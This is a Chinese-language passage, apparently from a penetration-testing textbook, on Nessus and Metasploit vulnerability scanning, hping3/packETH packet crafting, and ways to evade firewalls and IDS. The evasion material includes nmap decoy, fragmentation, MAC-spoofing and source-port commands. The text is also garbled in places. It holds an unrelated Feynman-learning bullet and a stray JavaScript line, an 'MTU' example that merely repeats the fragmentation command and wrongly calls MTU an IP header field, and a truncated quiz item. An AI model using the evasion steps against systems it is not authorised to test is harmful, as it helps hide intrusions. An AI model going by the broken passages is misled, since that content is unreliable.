例如，您可能有一个配置包含特定凭据。Figure 5.20 展示了凭据配置。您可以为主机创建 `SSH` 和 `Windows` 凭据用于身份验证。对于每种类型，您可以创建多个配置。您可以使用 `SSH` 密钥进行某些系统的验证，同时也可以设置用户名和密码的验证方式。根据界面说明，`SSH` 和 `Windows` 凭据数量没有上限。要创建另一组凭据，只需点击对应凭据类型行末的按钮即可。


**图 5.18** Nessus 中的扫描策略


**图 5.19** 扫描配置设置


**图 5.20** 凭据配置设置

除了主机凭据外，你还可以为 `database`、`miscellaneous` 和 `plain text` 设置身份验证凭据。最后一类用于 `HTTP`、`FTP` 和 `SMTP` 等协议。`Miscellaneous` 提供 `VMware` 和 `Palo Alto` 防火墙的设置。这使得 `Nessus` 能够检查各种应用程序和设备的本地漏洞。

除了凭据，你还可以配置想要运行的插件。可以通过点击顶部的 `Plugins` 标签页进入插件设置。回顾一下 图 5.19，你会看到左侧垂直排列的一组标签页。这不仅提供了基本设置的访问，还提供了发现、评估、报告和高级配置的访问。发现标签页让你确定将在网络上进行的发现类型，即可以设置端口扫描参数。默认情况下，端口扫描会针对常用端口执行。你可以选择对所有端口进行扫描，这可能会发现额外的漏洞，或至少发现一些你可能未曾预期的端口。

评估标签页让你设置 `Nessus` 应针对哪些 Web 漏洞进行扫描。默认情况下，`Nessus` 不会扫描 Web 漏洞。你可以设置不同级别的 Web 漏洞扫描。评估标签页还有一个重要设置。默认情况下，`Nessus` 会限制检测到的假阳数量。需要注意的是，这里提到的所有设置均位于基础网络扫描策略中。其他扫描策略会有不同的设置，其中一些可以更改。要获取全部设置，你需要通过高级扫描，所有设置都会暴露并可供修改。

报告标签页用于调整报告的详细程度。你可能希望限制报告中提供的细节，仅保留最小信息。默认情况下，`Nessus` 报告相当完整。每个发现都会包含漏洞细节、严重程度、关联参考以及可能的 `remediation`。为确保不熟悉 `Nessus` 的人也能够充分理解，需要提供足够的细节，这会占用大量空间。

在扫描进行中以及扫描完成后，你可以查看结果。最初，你会在点击 `My Scans` 中的扫描名称时看到所有漏洞的列表。如 图 5.21 所示，这里有一个部分列表。除了漏洞列表外，还会显示一个图表，指示哪些类别的漏洞数量最多。在所示扫描中，绝大多数为信息性消息，其次是中等严重程度的漏洞。


**图 5.21** 扫描结果列表

主机列表按 `Nessus` 识别的问题总数排序，但并非所有发现都是漏洞，因为还有信息性项目。`Nessus` 在扫描时识别出了 50 台主机，IP 地址以 `.52` 结尾的主机拥有最多已知漏洞。这并不意味着没有其他漏洞，只是 `Nessus` 当时未能识别。还可能存在假阴，即 `Nessus` 未能发现已存在的漏洞。右侧列显示的百分比表示 `Nessus` 认为对该主机的扫描完成度。该快照在扫描中途取得。

页面顶部有三个标签页。第一个标签页是主机列表，如前所述，按漏洞总数排序。第二个标签页是漏洞数量，按发现的严重程度排序，`Critical` 问题位于顶部，随后是 `High`、`Medium` 等。本地网络扫描发现了两个不同的 `Critical` 问题。其中一个与 `Mozilla Foundation` 的软件有关，`Nessus` 显示目标主机上安装了 `Mozilla Foundation` 的 `Thunderbird` 或 `Firefox`，但版本已不再支持。另一个问题涉及 `macOS` 系统，操作系统版本比最新版本落后一版。图 5.22 展示了与 `Mozilla` 漏洞相关的详细信息。


**图 5.22** 发现详情

在输出中，你会看到发现的描述以及解决方案，即升级到受支持的版本。下方还有指向其他站点的参考链接，提供更多关于该问题的信息。参考站点下方是扫描插件的详细信息，显示已发现的应用版本以及当前可用且受 `Mozilla Foundation` 支持的版本。可以看到已安装版本落后五个版本，而当时 `Mozilla Foundation` 提供的当前受支持版本为 `61.0`。输出中没有显示第二个主机的 IP 地址，仅为简 `brevity` 显示了一个 IP。

页面顶部还有一个标记为 `Remediations` 的标签，用于输出如何修复部分已识别的漏洞。如 图 5.23 所示，找到的四条修复措施全部与升级到最新软件版本有关，包括在一种情况下更新正在使用的操作系统版本。


**图 5.23** 修复措施列表

如前所述，严重程度会有所不同，`Nessus` 认为的严重程度不一定符合你对环境的了解。你可以在 `Plugin Rules` 标签页（位于左侧导航栏）创建规则，使得针对特定主机的发现自动重新分类。图 5.24 展示了插件规则设置的对话框。你可以指定主机或留空以适用于所有主机，并指定规则适用的插件 ID。设置好所有参数后，选择想要关联的严重程度，`Nessus` 会自动完成后续操作。

**图 5.24** 插件规则设置

与 `OpenVAS` 不同，`Nessus` 没有提供向发现结果添加注释的功能。但 `Nessus` 提供了你在 `OpenVAS` 中没有的审计日志。你可以通过插件 ID 和主机进行搜索，并获取运行该插件时的额外详细信息。例如，搜索关键的 `macOS` 过时发现的插件 ID 时，会显示 `Nessus` 无法识别操作系统的主机 IP 地址、`Nessus` 识别到操作系统但不是 `macOS` 的主机 IP 地址，以及操作系统正确但版本号错误的 IP 地址（即该插件运行后未产生任何发现）。

与 `OpenVAS` 类似，`Nessus` 使用 `Network Attack Scripting Language`（`NASL`） 脚本。这些脚本与 `Nessus` 安装一起存储。在 Windows 上，安装目录位于 `Program Files` 文件夹；在 Linux 上，文件存放在 `/opt/nessus`，插件则放在 `/opt/nessus/lib/plugins`。如果想详细了解插件的具体功能以验证发现，应查看脚本。可以通过插件 ID 定位对应的脚本文件。一旦熟悉这些脚本，它们会提供复制漏洞验证测试的详细步骤，这对于排除误报至关重要，且在确认真实漏洞时，需要向所在公司或组织提供相应的文档。

漏洞扫描仅是测试过程中的一个阶段，并非终点。漏洞必须始终进行验证。如果你的任务是尽可能发现更多漏洞，则需要进一步利用这些漏洞进行开发，以期发现更多问题。这可能需要使用 `Metasploit` 等 `exploit` 工具，或自定义开发工具，甚至需要构造形态特定的数据包。无论发现的结果如何，都必须在正式呈现前进行验证。

### 使用 Metasploit 查找漏洞

`Metasploit` 是一个功能多样的工具。当然，你可以使用它来开发应用漏洞，也可以进行之前的端口扫描。由于它是框架且包含大量模块，自然会有大量漏洞扫描模块。例如，有一个针对 `Eternal Blue` 漏洞的扫描模块。该漏洞是服务器消息块（`SMB`）协议实现中的缺陷，由国家安全局（`NSA`）发现并开发了 `exploit`，随后被名为 `Shadow Brokers` 的组织在未经 `NSA` 同意的情况下公开。下面是一个查找易受 `Eternal Blue` 影响系统的漏洞扫描示例。虽然该漏洞的修复已有多年，但仍有大量生产环境中的系统受其影响。

```


```text
msf6 auxiliary(scanner/portscan/syn)> use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(scanner/smb/smb_ms17_010)> set RHOSTS 192.168.4.0/24
RHOSTS => 192.168.4.0/24
msf6 auxiliary(scanner/smb/smb_ms17_010)> run
[-] 192.168.4.10:445 - Host does NOT appear vulnerable.
[-] 192.168.4.15:445 - Host does NOT appear vulnerable.
[*] 192.168.4.0/24:445 - Scanned 26 of 256 hosts (10% complete)
```

Metasploit 中提供了大量扫描器，并非所有扫描器都直接关联到漏洞。在 Metasploit 中搜索关键字 *scanner* 返回了 619 条结果，其中部分与已知漏洞相关，部分则用于查找可能存在配置问题的应用实例。

```text
   192  auxiliary/scanner/http/manageengine_deviceexpert_user_creds              2014-08-28       normal  No     ManageEngine DeviceExpert User Credentials
   193  auxiliary/scanner/http/manageengine_securitymanager_traversal            2012-10-19       normal  No     ManageEngine SecurityManager Plus 5.5 Directory Traversal
   194  auxiliary/scanner/http/mediawiki_svg_fileaccess                                           normal  No     MediaWiki SVG XML Entity Expansion Remote File Access
   195  auxiliary/scanner/http/meteocontrol_weblog_extractadmin                                   normal  No     Meteocontrol WEBlog Password Extractor
   196  auxiliary/scanner/http/mod_negotiation_brute                                              normal  No     Apache HTTPD mod_negotiation Filename Bruter
   197  auxiliary/scanner/http/mod_negotiation_scanner                                            normal  No     Apache HTTPD mod_negotiation Scanner
   198  auxiliary/scanner/http/ms09_020_webdav_unicode_bypass                                     normal  No     MS09-020 IIS6 WebDAV Unicode Authentication Bypass
   199  auxiliary/scanner/http/ms15_034_http_sys_memory_dump                                      normal  Yes    MS15-034 HTTP Protocol Stack Request Handling HTTP.SYS Memory Information Disclosure
```

虽然它不是最全面的漏洞扫描器，但如果你已经在 Metasploit 中进行其他工作，可以利用这些漏洞扫描模块有针对性地查找特定漏洞。若你能够检测到漏洞且熟悉 Ruby，则可以编写 Metasploit 模块来实现自定义漏洞检测。

### 数据包构造与操作

当你通过网络发送数据时，它遵循一条明确的路径直至从系统网络接口退出。我们在讨论 OSI（开放系统互连）模型时已经提及过这一点。假设你正在访问一个网页，输入 URL 后，浏览器会生成发送到服务器的 HTTP 请求报文头。为简化，我们跳过加密环节，仅说明完整数据包的组成过程。

应用程序向操作系统请求建立到服务器的连接，这会触发操作系统根据应用提供的信息（如主机名或 IP 地址、端口号）构建数据包。默认情况下，端口号为 80（HTTP）或 443（HTTPS）。这些信息使操作系统能够为 TCP 与 IP 层（第 4 与第 3 层）生成相应的报文头。

所有过程表明，应用程序是基于用户交互发起请求的，数据包的报文头信息结构清晰、可追溯至原始数据源。然而，有时你需要发送不遵循常规路径的数据，例如篡改包含非常规数据的报文头。每个报文头字段具有固定长度且为二进制格式，意味着不能在头部字段中传输字符而非数值。网络层以下的报文头绝不会经过 ASCII 解码转换为字符数据。

- [hping](https://wiki.example.org/hping)是开发者认为的 TCP/IP 数据包的“瑞士军刀”。你可以将其用作普通的 ping 程序，发送 ICMP 回显请求。由于`hping`主要是一个数据包构造程序，它允许你使用你想要的头部设置通过不同协议发起连接，默认模式可能对你并不理想。默认情况下，如果你只指定目标主机或 IP 地址而不做其他设置，`hping`会向目标的端口 0 发送带有变化源地址的数据包。地址 0 本质上是无效的目标，因为它被视为保留且没有用途。你不应该收到你正在发送流量的目标系统的任何响应。如果收到响应，说明目标主机真的在违反协议。虽然`hping`使用 TCP 实现这一点，但端口 0 对 UDP 和 TCP 都是无效的。

- 虽然你可以使用`hping`替代 ping 程序，通过使用`-1`参数（即启用 ICMP 模式）来建立对特定端口的连接。你将获得与 ping 程序相同的行为，即获取系统的“存活”状态和往返时间。此外，你还能获得更详细的信息，因为你可以知道特定服务是否正在运行。这在对应用进行测试时可能很有用，帮助你发现服务何时失败。除了往返时间外，响应中会包含大量细节。

- 下面的代码片段展示了对目标系统上 Web 服务器进行`hping3`的运行示例。

**发送 SYN 消息到目标系统**

```text
kilroy@quiche:~$ sudo hping3 -S -p 80 192.168.86.1
HPING 192.168.86.1 (eth0 192.168.86.1): S set, 40 headers + 0 data bytes
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=0 win=29200 rtt=7.9 ms
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=1 win=29200 rtt=7.9 ms
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=2 win=29200 rtt=7.6 ms
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=3 win=29200 rtt=7.5 ms
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=4 win=29200 rtt=7.3 ms
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=5 win=29200 rtt=3.0 ms
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=6 win=29200 rtt=2.8 ms
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=7 win=29200 rtt=2.7 ms
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=8 win=29200 rtt=2.5 ms
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=9 win=29200 rtt=2.4 ms
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=10 win=29200 rtt=2.2 ms
```

- `hping`会返回所有已设置的标志，包括 SYN 和 ACK 以及不分片位（DF）。此外，你还能看到 IP 标识、相对序号以及目标主机提供的窗口大小等信息。对于没有监听的端口，`hping`不会像标准 ping 程序那样提示主机不可达或超时，而是返回与开放端口相同的响应。标志会显示为 RA（表示 RST 和 ACK），说明远程系统重置了端口，表明没有应用程序在该端口上。

- 除了 ICMP 和 TCP，你还可以发送 UDP 消息。由于 UDP 头部选项有限，发送 UDP 消息的参数较少。`hping`可以通过`--scan`（或`-8`）参数进行端口扫描。下面的示例展示了扫描 1‑1023 端口的过程，针对管理端口范围。输出中被截断的部分是未监听的端口号及其服务名称。

**使用 hping 进行 UDP 端口扫描**

```text
root@quiche:~# hping3 --scan 1-1023 –a 10.15.24.5  -2 192.168.86.1
Scanning 192.168.86.1 (192.168.86.1), port 1-1024
1024 ports to scan, use -V to see all the replies
+----+-----------+---------+---+-----+-----+-----+
|port| serv name |  flags  |ttl| id  | win | len |
+----+-----------+---------+---+-----+-----+-----+
All replies received. Done.
Not responding ports: (1 tcpmux) (2 nbp) (3 ) (4 echo) (5 ) (6 zip) (7 echo) (8 ) (9 discard) (10 ) (11 systat) (12 ) (13 daytime) (14 ) (16 netstat) (17 ) (18 qotd) (19 msp) (20 chargen) (21 ftp-data) (22 ftp) (23 ssh) (24 )
```

- `hping`还能够发送任意大小的数据包。使用`-d`后跟字节计数可以设置数据包的体积。你还可以通过`--file`参数指定文件，让`hping`读取文件内容并用于填充数据包的数据部分，这可能会导致应用因违反协议规范而崩溃。

- `packETH`与`hping`不同，它采用图形用户界面（GUI）来设置所有参数。所选协议的头部集合会根据协议而变化，每个低层头部指示下一个协议，即下一组头部。选择协议后，`packETH`会自动提供该协议所需的所有头部字段。图 5.25 展示了 IP 头和 TCP 头的字段，同时也指示在层 2 头部中选择 IP 作为下一层协议。虽然此截图看不到层 2 头部，但你可以在`packETH`中设置地址、选择层 2 协议版本、添加 802.1q 虚拟局域网（VLAN）标签，以指定帧所属的 VLAN。

- [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者**Richard Feynman**。

1. 运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，*难以遗忘*。

```text
if (condVar > someVal) {console.log("xxx")}
```


任何你测试的目标组织都会有安全机制来防御自己，这可能是防火墙或入侵检测系统。它也可能有入侵防御系统。这些手段中的任何一种都可能阻碍你的努力，要么通过阻塞它们，要么通过发出警报，这可能导致你的行为被发现。这些情况都是不好的。好在，有一些规避技术可以帮助你绕过这些设备，从而继续进行操作。我们已经看到的一些工具将帮助你完成这些规避程序。常见的规避技术如下：

`Hide/Obscure the Data` 你可以使用加密或混淆来伪装你正在做的事情。加密流量在不违反加密的端到端属性的前提下无法被检查。加密的目标是让消息从发送者到接收者全部保持加密状态，中间节点不会解密。你也可以使用各种编码技术对数据进行编码，包括 URL 编码，它会把字符替换为其 ASCII 码的十六进制值。

`Alterations` 入侵检测/防御系统通常会使用所谓的 `signature`（签名）。在恶意软件的情况下，这可能是一个可以与已知恶意软件数据库中的哈希值进行比对的加密散列。如果哈希值匹配，消息会被丢弃。对于加密散列而言，文件内容中即使只更改一个字符，也会产生完全不同的哈希值，这意味着你的操作不会被检测到。这种策略常被称为 `polymorphisms`，源自 `polymorph`，意为“多种形态”。

`Fragmentation` 碎片化攻击可以用来规避网络安全机制，因为这些设备在 inline 模式下需要时间将消息重新组装，而攻击行为在重新组装完成前不可见。重新组装需要时间，因此一些设备直接放弃，因为重新组装和检测会增加通信的延迟。这取决于设备以及其开发者的决策。你可以使用诸如 `fragroute` 之类的工具来帮助进行碎片化。

`Overlaps` 当消息被碎片化时，可能在网络层或传输层发生，如你通过查看 `fragroute` 所看到的那样。在重新组装消息时，所有碎片都必须完整且处于合法状态，才能拼回完整的拼图。使用 TCP 时，你可以重叠序列号。这本质上是已发送的字节计数。你可能发送两个 TCP 段，它们在拼图中看起来占据相同的空间。IDS 与目标操作系统可能会以不同的方式重新组装拼图。如果一方倾向于使用较新的信息，另一方则倾向于使用较旧的信息，操作系统需要决定第一条收到的报文是否有效，或是最后收到的报文更有效。

`Malformed Data` 协议是关于通信应如何进行的规则集合。如果你违反这些规则，会得到意想不到的结果。即使你没有直接违反规则，而是利用协议漏洞，也能获取有用数据。这就是为什么 `nmap` 会使用 Xmas、FIN 和 NUL 扫描。这种行为虽然不符合协议的技术合法性，但确实是意外的。同样，协议中细节在不同网络栈之间的处理方式可能不同。URG 指针在不同操作系统上可能被处理不同，这可以用来绕过 IDS 并让目标系统按你想要的方式响应。

`Low and Slow` 快速扫描容易被检测。相对隐蔽的是在长时间内进行的扫描。想象每小时发送一次扫描包。虽然这会很耗时，但单个报文不太可能被 IDS 或防火墙识别为端口扫描。慢下来可以带来好处。你可以使用 `nmap` 的限流参数来显著减慢扫描速度。

`Resource Consumption` 通过耗尽 CPU 或内存等资源，有可能让设备进入失败打开状态。如果你能耗尽这些资源中的任何一种，后续的报文可能会在设备失效后直接通过。

`Screen Blindness` 在 IDS 中，设备或软件会发出警报，预期有人会查看这些警报。如果你能生成大量与你无关的流量警报，就能让查看警报的人“屏幕失明”，即因为被大量信息淹没而看不到重要细节。这样，你可以通过大量伪造警报流量制造一层烟雾，然后再通过真实数据通道。

`Tunneling` 隧道是一种在其他数据包内传输数据的方式。例如，Generic Routing Encapsulation (GRE) 协议可以通过将数据包封装在 GRE 数据包中来创建隧道，使得看起来像是 GRE 数据包在传输，而实际 payload 中包含的才是真实内容。GRE 是一种专门用于在接收端处理路由而非发送端的隧道协议。其他协议也被用于隧道攻击，包括 SSH、HTTP、ICMP 和 DNS。这些隧道攻击需要接收端的软件能够提取隧道消息并将其放置在目标网络上。

请记住，像状态防火墙这类设备在你成功让第一条报文通过后，后续报文默认会被允许，因为它们属于已建立的连接。当然，这些规避技术已经存在很长时间，防火墙或 IDS 供应商很可能已经知道如何检测大多数手段。这意味着你可能无法让这些规避技术发挥作用。尽管如此，了解它们并尝试使用仍然值得，以看看是否能够突破防护。

有些技术更有可能成功，因为它们不依赖于防火墙或 IDS 供应商。例如，加密始终有效，因为防火墙和 IDS 根本看不到数据，密钥是端点之间协商的。加密的前提是接收端必须运行一个理解加密并能与发送端应用协商的服务。另一种不依赖技术手段的规避方法是通过压倒查看警报的人，假设系统没有技术手段过滤掉无关紧要的消息，只向操作员展示有趣的警报。

## 使用 `nmap` 进行规避

`nmap` 自带一定程度的规避功能。这些功能与前面提到的 malformed request 相似，即使用一些在现实世界中不应出现的包配置。预期这些包配置会让网络安全设施直接忽略它们。遗憾的是，这些手段已经非常著名，防火墙和 IDS 系统同样能够识别。更难被发现的是 `idle scan`，它利用一个未在网络上通信的系统，计算目标应该收到的正确 IP 标识号，并通过目标对目标发送的重置报文来实现。

闲置扫描的工作原理是系统伪造消息，使其看起来像是来自闲置系统的消息。接收系统随后会将所有响应发送给闲置系统，而扫描系统则会定期向闲置系统发送消息，以获取当前的 IP 标识值。基于此，发送系统可以判断在发送系统发出的数据之后，可能被接收和发送的数据包有哪些。发送系统知道它发出了什么。

1. 虽然扫描可以被防火墙或检测系统轻易发现，但扫描的来源位置是看不见的。如果扫描使用受害者或闲置系统，而该系统与扫描本身无关，即使检测到扫描事实，也无法明确谁实际上在执行扫描，因为扫描是盲的。

2. 另一种“盲”防御的方法是使用大量伪装目标。你可以让 `nmap` 通过在实际关心的端口扫描之外生成大量伪造流量来制造干扰。具体做法是使用 `-D` 标志并跟随伪装参数。你可以指定要使用的地址，但同样可以让 `nmap` 随机化源地址。下面是如何让 `nmap` 使用三个随机源地址创建随机干扰：

```bash
$ sudo nmap -D rnd:3 192.168.178.1

Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-20 19:19 CET

Nmap scan report for unnamed (192.168.178.1)

Host is up (0.013s latency).

Not shown: 993 closed tcp ports (reset)

PORT     STATE SERVICE

53/tcp   open  domain

80/tcp   open  http

443/tcp  open  https

554/tcp  open  rtsp

5060/tcp open  sip

8089/tcp open  unknown

8181/tcp open  intermapper

Nmap done: 1 IP address (1 host up) scanned in 1.54 seconds
```

3. 这看起来像是一个普通的 `nmap` 扫描，直到查看数据包捕获。下面的数据包是该扫描期间捕获的。扫描是在虚拟机内部进行的，实际源地址应为 10.211.55.11。你可以在上方看到三个不同的源地址，实际地址是 10.211.55.11，另外三个地址分别是 212.236.76.245、53.129.176.4 和 41.97.136.192。

```
19:19:25.239139 IP 212.236.76.245.47924> 192.168.178.1.3006: Flags [S], seq 3917877688, win 1024, options [mss 1460], length 0

19:19:25.239141 IP 10.211.55.11.47924> 192.168.178.1.3006: Flags [S], seq 3917877688, win 1024, options [mss 1460], length 0

19:19:25.239147 IP 53.129.176.4.47924> 192.168.178.1.3006: Flags [S], seq 3917877688, win 1024, options [mss 1460], length 0

19:19:25.239149 IP 41.97.136.192.47924> 192.168.178.1.3006: Flags [S], seq 3917877688, win 1024, options [mss 1460], length 0

19:19:25.239152 IP 212.236.76.245.47924> 192.168.178.1.65129: Flags [S], seq 3917877688, win 1024, options [mss 1460], length 0 
```

4. 除了创建伪装目标外，如前所述，你还可以让 `nmap` 处理碎片化。虽然 `fragroute` 很有用且可在多种情况下使用，但如果你只需要进行扫描，让 `nmap` 处理碎片化更加简便。下面是一个带有碎片化的 `nmap` 扫描示例：

```bash
$ sudo nmap -f -p80,443 192.168.178.1

Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-20 19:26 CET

Nmap scan report for fritz.box (192.168.178.1)

Host is up (0.12s latency). 

PORT    STATE    SERVICE

80/tcp  filtered http

443/tcp filtered https
```

5. 另一种实现类似效果的方法是让 `nmap` 设置 MTU。MTU 是 IP 头中的字段，用于告诉网络设备根据传输介质的最大传输单元（MTU）可以发送多大的 IP 包。某些网络只接受小于特定大小的数据帧。例如，以太网允许的最大传输单元为 1,500 字节。超过此限制的数据段需要进行碎片化，并相应设置碎片化头。接收方负责按正确顺序重新组装完整报文。如果将 MTU 设置得足够小，某些中间设备（如路由器或防火墙）可能会选择直接转发而不重新组装，以便检查（注意这里是“可能”，并非“一定”或“应该”，因为现代系统已不再受限于处理或存储能力）。让 `nmap` 设置 MTU 的示例如下，需注意 MTU 必须是 8 的倍数：

```bash
$ sudo nmap -f -p80,443 192.168.178.1

Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-20 19:26 CET

Nmap scan report for fritz.box (192.168.178.1)

Host is up (0.12s latency). 

PORT    STATE    SERVICE

80/tcp  filtered http

443/tcp filtered https
```


6. 除了上述技巧，`nmap` 还提供其他规避防火墙和入侵检测系统的方法，包括伪装源 MAC 地址。这是一种受限使用的扫描，利用本地网络防火墙对特定 MAC 地址的信任关系。如果目标在远程，这种扫描通常不适用。第一次你的帧到达网络设备（如路由器或防火墙），帧头（包括你的 MAC 地址）会被移除，并由防火墙或路由器的另一侧的适当 MAC 地址取代。如果想尝试，可以使用 `‑‑spoof-mac` 后跟 MAC 地址或厂商名称。若指定厂商，`nmap` 会使用相应的 OUI 并随机生成三个八位元来标识具体主机。

7. 最后，你可以伪装源端口。某些防火墙会检查源端口，因为它对某些应用（如 DNS 或 FTP）是必要的。虽然这在当今已不再是大问题，但一些防火墙管理员（尤其是使用较老实现的防火墙）会检查源端口号并据此允许流量。例如，你可以使用 `nmap -g 53` 让 `nmap` 从源端口 53 发送流量，从而暗示该流量与 DNS 相关。

- 漏洞扫描器同样嘈杂。即使扫描仪事先知道端口/应用，也会产生大量请求。几乎所有请求都会显得很糟糕。这里入侵检测系统可以提供帮助。你可能无法，或者甚至不想阻止漏洞扫描仪的流量，因为实际上它会是，或者至少看起来像合法请求。你可能会注意到，这些请求匹配已知漏洞。网络入侵检测系统应该能够检测这种活动。

当涉及到包构造攻击或伪造攻击时，也有防护方法。边界防火墙应该阻止永远不会发生的流量。这包括 RFC 1918 空间的私有地址，按惯例这些地址在 Internet 上不可路由。如果地址无法通过 Internet 传入，那么使用这些地址从 Internet 传入的任何内容都不能是合法的。同样，伪造攻击（例如空闲扫描）可能看起来像是来自内部主机。位于网络内部的任何地址不可能来自外部，因此也应该被阻止。

**Summary**

扫描将为你提供大量在测试和评估时所需的信息。扫描有不同种类，但在扫描过程中，你需要识别开放端口。识别开放端口的目的不仅仅是获取端口列表，最终目标是识别在开放端口上监听的服务或应用程序。为了识别这些开放端口，你会使用端口扫描器。最常用的端口扫描器是 `nmap`，它不仅能识别开放端口，还能通过抓取横幅来识别应用版本，还能识别目标机器上运行的操作系统。

虽然还有其他端口扫描器可用，如用于高速扫描的 `masscan`，但 `nmap` 是唯一内置脚本引擎的端口扫描器。`nmap` 的脚本引擎基于编程语言 `Lua`，但 `nmap` 提供库，让你可以轻松访问 `nmap` 的信息，从而编写脚本以更好地识别服务，并执行诸如漏洞识别等测试。当你为 `nmap` 脚本引擎（`NSE`）编写脚本时，你会向 `nmap` 注册端口，这样 `nmap` 就会在发现注册端口打开时调用你的脚本。

虽然 `nmap` 通常是命令行程序，但也有一个 GUI 前端 —  — `Zenmap`。`Zenmap` 会根据你指定的命令调用 `nmap`，并解析结果，以多种方式呈现给你。你可以查看所有识别出的服务，也可以根据 `nmap` 的结果获得网络拓扑的视图。你可以向 `Zenmap` 提供与 `nmap` 相同的命令，它还会提供一些自带的扫描类型，如强度扫描。选择扫描类型会自动填充所需的命令行参数。

漏洞扫描仪不仅会查找漏洞，还会在查找和识别开放端口时执行端口扫描。市面上有许多商业漏洞扫描器。开源漏洞扫描器非常少。其中一个基于已商业化的产品是 `OpenVAS`。`OpenVAS` 是从 `Nessus` 的最后一个开源版本分叉而来。漏洞扫描仪的挑战之一是维护它们并保持更新所需的工作量巨大，这或许是开源扫描器数量很少的主要原因。

像 `OpenVAS` 和 `Nessus` 这样的漏洞扫描仪使用插件来执行测试。它们会探测目标主机的行为，以识别潜在漏洞。但并非所有被识别的漏洞都是真实的，被识别但实际上不存在的漏洞称为 *false positives*。相反，未被识别的真实漏洞称为 *false negative*。由于其工作方式，漏洞扫描仪远非万全，可能需要手动验证扫描结果。

如果要测试漏洞并进行扫描，可能需要使用除了操作系统自动构建数据包之外的其他工具。你可以使用 `hping` 等工具来构造数据包，它既可以用于扫描，也可以通过命令行参数创建数据包。如果你不想使用命令行，可以使用 `packETH`。`packETH` 向你展示从第 2 层到第 4 层的所有报头，并允许你创建数据包的负载。它还能从 PCAP 中提取并修改数据包。你可以向目标（第 2 层或第 3 层）单独发送单个数据包，也可以发送数据流。使用这些构造的数据包，你可以从目标获得响应，这些响应可能提供你所需的信息。

目标网络通常会部署防火墙和 IDS。你可能会想使用规避这些设备的技术，因为它们会阻碍你的工作。规避安全技术的方法包括加密/编码、使操作员“目 Blind”，或向目标发送 malformed 消息。防止这类扫描（无论是端口扫描还是漏洞扫描）的最佳方法是部署位于网络入口的防火墙，包括虚拟局域网等网络段。你不一定能阻止所有这些手段，但 IDS 会很有用，让人知道发生了不好的事情。

1. 如果你从目标主机收到 RST 包，你可以知道以下哪项？

    1. 目标使用 UDP 而非 TCP。

    2. 目标主机的目的端口是打开的。

    3. RST 消息中的源端口是关闭的。

    4. 目标期望 PSH 标志被设置。

2. SYN 扫描和全连接扫描（full connect scan）有什么区别？

    1. SYN 扫描和全连接扫描是相同的。

    2. 全连接扫描先发送 ACK 消息。

    3. SYN 扫描使用 PSH 标志与 SYN 标志一起。

    4. SYN 扫描不完成三次握手。

3. 以下哪项是 UDP 扫描可能比同等 TCP 扫描耗时更长的原因？

    1. UDP 会更频繁地重传。

    2. UDP 有更多的端口需要扫描。

    3. UDP 是更慢的协议。

    4. UDP 需要更多的消息来建立连接。

4. 为什么 ACK 扫描无法明确指示端口是否打开？

    1. 扫描员必须猜测。

    2. ACK 不是受支持的标志。

    3. 目标系统忽略该消息。

    4. ACK 扫描会导致大量重传。

5. 使用类似 ACK 扫描的一个原因是什么？

    1. 它可能绕过防火墙和 IDS 设备。

    2. 它支持度更好。

    3. `nmap` 的代码更具健壮性。

    4. 脚本支持需要 ACK 扫描。

6. `nmap` 查看什么来进行操作系统指纹识别？

    1. 操作系统的报头

    2. 应用版本

    3. 连接到端口 0 的响应

    4. IP ID 字段和初始序列号

7. 当 `nmap` 进行版本扫描时，它查看什么？

    1. TCP 和 IP 报头

    2. 应用横幅

    3. 操作系统内核

    4. IP ID 和 TCP 序列号字段

8. 使用 `masscan` 相对于 `nmap` 的一个优势是什么？

    1. `masscan` 使用时间更久。

## 第 6 章

### 列举

端口扫描最终是为了识别目标网络中系统上安装的应用程序。一旦我们识别出应用程序，就需要进一步挖掘，看看能够提取哪些额外信息。这可能包括用户信息或网络中可用的共享资源的详细信息。当然，在开始执行列举时，我们还可以进行其他活动。这些信息收集在我们进入下一阶段时会很有帮助。

列举是确定正在运行的服务并从这些服务中提取信息的过程。第一步是识别目标系统上可用的服务。每个服务可能包含大量可获取的信息。外部可访问的服务可能需要身份验证，这意味着存在用户。例如，用户可能需要经过身份验证并授权才能查看 Web 服务器的某些部分。你可能能够让 Web 服务器指示其配置的用户名，这便是列举的一个例子。

由于我们正在进行列举，接下来会仔细观察几种协议以及与这些协议配合使用的工具。首先是服务器消息块（SMB）协议。该协议用于 Windows 系统的文件和资源共享以及某些远程管理。这里显然需要用户对服务进行身份验证，因此我们可以花些时间尝试在 Windows 服务器上查找用户。此外，你可能还能够识别与 Windows 域相关的安全策略信息。当然，你应该能够识别存在的文件共享。

其他可能不易联想到的列举协议包括简单邮件传输协议（SMTP）和简单网络管理协议（SNMP）。用户在通过 SMTP 服务器发送邮件时通常需要进行身份验证和授权，尤其是当他们是从与邮件服务器所在网络之外的网络发送时。例如，如果你使用传统的邮件客户端连接 Gmail 或 Office 365，你会熟悉需要提供用户名和密码的过程。你的客户端可能会自动填充这些信息，但如果你查看设置，这些信息仍然存在。

SNMP 可以提供大量系统信息。如果你能够获得 SNMP 系统的访问权限，就能遍历管理信息基（MIB），从目标系统中提取详细信息。有工具会帮助你完成此遍历，获取信息并将其呈现给你。

MITRE ATT&CK 框架将列举归类为侦察（Reconnaissance）阶段。目前，它识别了两种技术：Gather Victim Host Information（收集目标主机信息）和 Gather Victim Identity Information（收集目标身份信息），这两种技术广泛符合列举的范畴。

